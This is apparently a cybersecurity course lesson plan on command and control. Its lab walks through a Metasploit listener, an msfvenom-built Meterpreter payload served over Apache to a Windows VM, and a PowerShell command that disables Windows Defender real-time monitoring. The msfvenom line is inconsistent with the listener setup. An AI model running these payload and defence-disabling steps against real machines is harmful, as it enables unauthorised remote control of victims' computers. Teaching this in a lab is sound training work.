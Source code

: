 ## 1.3 Lesson Plan: Command and Control

#### Overview

 In today's lesson, we start by learning what command and control (C2) is and how it's used by malicious actors in order to communicate with computers they control or have compromised.

#### Class Objectives

By the end of class, students will be able to:

- Explain what C2 is and how it fits in an offensive security operation

- Use Metasploit to generate a malicious executable with `msfvenom` and establish a connection back to their C2 server

- Perform basic reconnassiance with Meterpreter

### Lab Environment

Students will use their Kali virtual machine to act as the C2 "server" and run their generated malicious executable on the Windows 10 virtual machine. 

### Slideshow and Timetracker

The lesson slides are available on Google Drive here: [1.2 Slides](https://docs.google.com/presentation/d/1AUuAjxX7_oIm5TOJHHXP6qROy8kmxuhMzVqyov3RVNs/edit?usp=sharing)

### 01. Instructor Do: C2 Architecture and the Metasploit Framework
 
Welcome students back to class and explain that today we will be learning what a command and control framework is and how it's used in an offensive operation. We will also introduce students to their first C2 framework, Metasploit.

`Note:` Metasploit is considered both an exploitation and Command and Control framework, where most C2 platforms today are just C2 frameworks (No exploitation).

Students should have an understanding of the cyber 'kill chain' in which today we will explore how the command and control architecture assists throughout the process. 

When an attacker compromises a computer, they directly control that machine. Throughout the cyber kill chain, an attacker will compromise several machines, which means several machines are then communicating with that single attacking machine. This is know as 'command and control'.

In a traditional C2 architecture, multiple compromised machines, also known as "zombies", communicate with a single C2 'framework', hosted on a machine. 

- C2 architecture has evolved signficiantly over the past decade so that the true C2 server is concealed through various methods, instead of a direct Server -> Host architecture.

- In order to communicate back to the C2 server, the compromised machine must run an 'agent', which typically is a malicious executable or code that runs on the target machine.

- Most C2 frameworks support multiple different ways of connectivity, also known as "channels".

A compromised host can communicate using either a single channel or several channels over various protocols. Some of these protocols include

- DNS
- HTTP
- HTTPS
- TCP (Arbritary port)
- SMB

The protocol being used is dependent on the target's network firewall egress rules. Typically, most egress rules allow HTTP/S and DNS outbound, which is why those channels are commonly used for C2 communication.

While under the control of a C2 server, a zombie will periodically communicate back with the C2 server to 'check-in' for any updates. This is commonly referred to as a 'heartbeat'. Whenever a compromised computer checks in with the C2 server, it will do two things.

1) Let the server know the malicious process is still running
2) Ask for any instructions 

When the compromised computer asks for any instructions, it's asking if any commands need to be executed. 

For example, if the operator of the C2 server issues a command, `pwd`, to the compromised machine, that command is only run when the compromised machine checks-in with the C2 server. This interval is commonly able to be changed and is depedant on the C2 framework being used.

The C2 framework we will be using for this class is Metasploit. Metasploit is both a C2 and exploit framework, supporting a variety of different payloads. 

- Metasploit will be heavily used during this module, however we are simply introducing them to Meterpreter to demonstrate how C2 works.

- We will cover the capabilities of the 'Meterpreter' shell later in the course.

### 02. Student Do: Command and Control Framework research

In this activity, students will research various C2 frameworks and document similiarities and differences between them. 

[Student Do Activity Link](01-C2Research.md)

Share the following link with students: https://www.thec2matrix.com/matrix

[Student Do Solved Link](01-C2Research-Solved.md)

### 03. Instructor Do: Metasploit Framework and msfvenom

Remind students that as shown in their research activity, there are many choices for C2. In this class, however, we will be focusing on using Metasploit.

- Metasploit is a tool that has been around for quite a bit and owned by the company Rapid 7. 

- There's a free version, which is what comes installed on Kali by default, and a professional version, which expands on it's exploitation and C2 capabilities

Metasploit has an additional component, msfvenom, which allows the operator to craft the malicious agents and payloads that will be used to communicate back with Metasploit.

### 04. Instructor Do: Metasploit and msfvenom demonstration

1. Login to the Kali machine with credentials `root/toor`

2. Click on the Metasploit icon on the taskbar

Explain to students that unlike most C2 frameworks, Metasploit is purely commandline based and has no web application or GUI. 

3. Once metasploit is started, type `use exploit/multi/handler` 

Explain to students that in order for the payload/agent we're going to craft to communicate back to Metasploit, we need to start something called a 'listener' that "listens" for the payload to talk back.

- Without starting a listener, the C2 server will not be able to communicate with any agents.

- Metasploit works through its use of "modules". In this case, we're using the `exploit/multi/handler` module which is Metasploit's listener module.

4. Type `ip addr` to get the IP address of the Kali machine, then type `set LHOST <kali ip address>`

5. After the LHOST (listener host) is set, set the LPORT by typing `set LPORT 4444`

![](/Images/01.Metasploitoptions.PNG)

6. Once LPORT and LHOST is set, start the listener by typing `run -j`. The `-j` option sets it to run in background.

7. Next, generate the agent/payload by typing `msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe` 

![](/Images/02.Metasploitmsfvenom.PNG)

8. Clear out the /var/www/html/ folder: `rm /var/www/html/*`

9. Move the payload to /var/www/html: `mv shell.exe /var/www/html/`

10. Start the apache web service by typing `service apache2 start`

![](/Images/03.apache.PNG)

11. Now move from your Kali VM to your Windows VM. Open an web browser and browse to your Kali's IP address. Download the `shell.exe` payload and execute it.

- Note: Windows Defender should be turned off. If not turned off, open PowerShell as administrator and run `Set-MPPreference -DisableRealTimeMonitoring $true` 

![](/Images/04.Windows.PNG)

12. Back in Kali, you should see a message "Meterpreter Session 1 opened". To interact with this session, type `sessions -i 1`

![](/Images/05.Session.PNG)

13. You now have a shell into the Windows machine, with Metasploit operating as the C2 server. Demonstrate commands such as `ls` and `pwd` to show you're on the Windows machine.

![](/Images/06.Command.PNG)

We will explore the capabilities of the Meterpreter shell later in the course. 

### 05. Student Do: Metasploit and MSFVenom

In this activity, students will follow in the instructor's footpath and use Metasploit and MSFvenom to open a shell on their Windows VM.

[Student Do Activity Link](02-Metasploit.md)

[Student Do Solved Link](02-Metasploit-Solved.md)